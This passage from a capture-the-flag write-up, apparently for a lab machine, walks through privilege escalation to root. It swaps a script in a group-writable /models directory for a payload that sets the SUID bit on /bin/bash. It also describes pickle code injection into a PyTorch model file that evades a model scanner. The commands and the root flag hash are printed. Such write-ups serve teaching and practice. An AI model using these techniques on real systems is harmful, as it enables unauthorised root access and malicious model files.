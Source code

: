 Until we noticed that we had `permissions` on the `directory` not to `modify`, but to `delete` any file within.

```c
jippity@blurry:/models$ ls -la
total 1068
drwxrwxr-x  2 root    jippity    4096 Jun  8 18:12 .
drwxr-xr-x 19 root    root       4096 Jun  3 09:28 ..
-rw-r--r--  1 root    root    1077880 May 30 04:39 demo_model.pth
-rw-r--r--  1 jippity jippity      66 Jun  8 18:11 evaluate_model.py
```

```c
drwxrwxr-x  2 root    jippity    4096 Jun  8 18:12 .
```

We deleted `evaluate_model` and placed our own file with our payload to set the `SUID bit` on `/bin/bash`.

```c
jippity@blurry:/models$ cat evaluate_model.py 
import os

# Execute the command
os.system('chmod u+s /bin/bash')
```

Then we reused the `demo_model.pth` and executed the command using `sudo`.

```c
jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/demo_model.pth
[+] Model /models/demo_model.pth is considered safe. Processing...
```

```c
jippity@blurry:/models$ /bin/bash -p
bash-5.1#
```

### Weaponizing ML Models with Ransomware
That should be the intended way. 
* https://hiddenlayer.com/research/weaponizing-machine-learning-models-with-ransomware/#Pickle-Code-Injection-POC
This blog post contains all the necessary information and the script we used.

1. Make the torch_picke_inject.py in /dev/shm
2. Move the /models/demo_model.pth to /dev/shm
3. Run `python3 torch_picke_inject.py demo_model.pth runpy "import os; os.system('chmod u+s /bin/bash')"`
4. Now move the file demo_model.pth back to /models
5. Run `sudo /usr/bin/evaluate_model /models/*.pth`
   
This works because the runpy._run_code approach is currently undetected so exec or system failed. 

## root.txt

```c
bash-5.1# cat /root/root.txt
9e1caed85c602c3f6572f84cabe56425
```
